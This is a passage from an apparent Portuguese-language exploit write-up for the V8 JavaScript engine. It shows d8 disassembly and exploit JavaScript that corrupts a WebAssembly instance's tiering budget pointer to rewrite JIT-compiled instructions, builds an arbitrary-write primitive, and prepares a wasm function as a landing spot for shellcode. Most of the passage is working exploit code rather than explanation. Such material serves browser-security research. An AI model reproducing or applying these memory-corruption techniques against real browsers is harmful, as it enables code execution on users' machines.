 ```javascript
V8 version 11.4.0 (candidate)
d8> nop()
[truncated]
0x1a787102975b    1b  488b868f000000       REX.W movq rax,[rsi+0x8f]
0x1a7871029762    22  8b08                 movl rcx,[rax]
0x1a7871029764    24  83e91b               subl rcx,0x1b
[truncated]
d8> nop2()
[truncated]
0x1a78710297f5    35  488b868f000000       REX.W movq rax,[rsi+0x8f]
0x1a78710297fc    3c  8b5008               movl rdx,[rax+0x8]
0x1a78710297ff    3f  83ea35               subl rdx,0x35
[truncated]
```

E no exploit vamos subtrair `0x1b` de `0x35`:

```javascript
v8_write64(wasm_instance_addr + tiering_budget_array_off, sub_instruction_addr);
nop(); // transform "subl rdx,0x35" in "subl rdi,0x7"
```

E depois disso, podemos subtrair valores de forma mais assertiva, vamos criar outras duas funções no WebAssembly, `arb_write` e `shell`, a primeira será a função que vamos retirar os checks de integridade e a segunda um "nop" para onde vamos copiar nosso shellcode:

```wasm
(func $main (export "arb_write")
  (param $offset i32)  ;; Offset within memory
  (param $value i64)   ;; 64-bit integer to write
  
  (i64.store
    (local.get $offset)  ;; Get the memory offset
    (local.get $value)   ;; Get the i64 value
  )
)
(func (export "shell")
  nop
)
```

Agora com nosso `subl [arb address],0x7` vamos trocar algumas instruções de `arb_write`:

```javascript
v8_write64(wasm_instance_addr + tiering_budget_array_off, shr_instruction_addr - 4n);
nop2(); // transform "shrq rcx, 24" in "shr r9d, 0x18"

v8_write64(wasm_instance_addr + tiering_budget_array_off, add_instruction_addr - 4n);
nop2(); // transform "addq rcx,r14" in "add ecx, esi"
v8_write64(wasm_instance_addr + tiering_budget_array_off, add_instruction_addr - 4n + 2n);
nop2(); // transform "add ecx, esi" in "add eax,edi"
v8_write64(wasm_instance_addr + tiering_budget_array_off, add_instruction_addr - 4n + 2n);
nop2(); // transform "add eax,edi" in "add eax, eax"

v8_write64(wasm_instance_addr + tiering_budget_array_off, orig_sub_addr);
```
